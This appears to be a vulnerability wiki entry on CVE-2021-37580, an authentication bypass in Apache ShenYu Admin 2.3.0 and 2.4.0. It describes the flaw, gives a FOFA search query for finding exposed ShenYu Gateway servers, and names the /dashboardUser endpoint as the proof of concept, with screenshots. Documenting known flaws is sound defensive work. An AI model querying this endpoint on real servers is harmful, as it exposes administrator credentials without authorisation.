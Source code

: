 ```yaml
---
title: Apache ShenYu dashboardUser Account password leak vulnerability CVE-2021-37580
---
```


# Apache ShenYu dashboardUser Account password leak vulnerability CVE-2021-37580

## Vulnerability Description

Apache ShenYu Admin exposed an authentication bypass vulnerability. An attacker can bypass JSON Web Token (JWT) security authentication and directly enter the system background. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache ShenYu 2.3.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache ShenYu 2.4.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">
<a-button href="https://fofa.info/result?qbase64=dGl0bGU9PSJTaGVuWXUgR2F0ZXdheSI%3D">FOFA: title=="ShenYu Gateway"</a-button>
</a-checkbox>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637147081877-43f55f7c-036d-46b7-bc46-b6d8e84ab30c.png)

Verify POC

```python
/dashboardUser
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1637288016920-df3c79ba-5617-49e6-bac9-e27b7582eae5.png)